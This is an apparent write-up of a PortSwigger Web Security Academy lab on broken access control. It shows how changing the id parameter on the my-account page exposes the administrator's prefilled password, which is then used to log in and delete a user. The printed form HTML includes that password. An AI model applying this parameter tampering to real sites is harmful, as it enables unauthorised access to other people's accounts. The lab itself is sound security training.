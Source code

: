 # [Lab: User ID controlled by request parameter with password disclosure](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure)

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

To solve the lab, retrieve the administrator's password, then use it to delete  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Analysis

login to `wiener` account, at the `my-account` page, password is revealed at html form:

```html
<form class="login-form" action="/my-account/change-password" method="POST">
    <br>
    <label>Password</label>
    <input required="" type="hidden" name="csrf" value="u9ah9Jib6PtthNaJehbkBmqJ5Dae4AjM">
    <input required="" type="password" name="password" value="peter">
    <button class="button" type="submit"> Update password </button>
</form>
```

and the url to `my-account` page is:

```url
https://0adc003804f08dc0c10e671a00f10035.web-security-academy.net/my-account?id=wiener
```

## Solution

access to:

```url
https://0adc003804f08dc0c10e671a00f10035.web-security-academy.net/my-account?id=administrator
```

obtain the admin password at html form:

```html
<form class="login-form" action="/my-account/change-password" method="POST">
  <br>
  <label>Password</label>
  <input required="" type="hidden" name="csrf" value="u9ah9Jib6PtthNaJehbkBmqJ5Dae4AjM">
  <input required="" type="password" name="password" value="ls7hgceacoropfh8w2m8">
  <button class="button" type="submit"> Update password </button>
</form>
```

login to admin account and delete carlos account
